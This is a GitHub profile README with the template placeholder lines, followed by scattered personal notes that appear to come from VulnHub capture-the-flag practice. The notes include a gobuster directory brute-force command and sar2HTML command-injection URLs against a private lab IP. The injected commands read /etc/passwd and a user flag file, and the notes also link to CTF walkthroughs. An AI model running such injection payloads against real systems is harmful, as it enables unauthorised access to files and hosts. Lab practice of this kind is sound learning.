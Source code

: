 - 👋 Hi, I’m @Sharvinleon
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Sharvinleon/Sharvinleon is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->https://drive.google.com/file/d/1Ds6vnRHAIvX3xSbM9M_1v1jjWekJgnRK/view?usp=drivesdk
https://drive.google.com/file/d/1pfe99sbOOA7NtDNe-s1VieMdNp9yFdLD/view?usp=drivesdk
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt-u http://(ip)
192.168.79.131/sar2HTML/index.php?plot=; cat /etc/passwd
192.168.79.131/sar2HTML/index.php?plot=; cat /home/love/Desktop/user.txt
https://russellmurad.medium.com/hacking-messaih-1-vulnhub-walkthrough-601147727dcc
https://resources.infosecinstitute.com/topics/capture-the-flag/victim-1-vulnhub-ctf-walkthrough/
https://drive.google.com/file/d/1Ds6vnRHAIvX3xSbM9M_1v1jjWekJgnRK/view?usp=drivesdk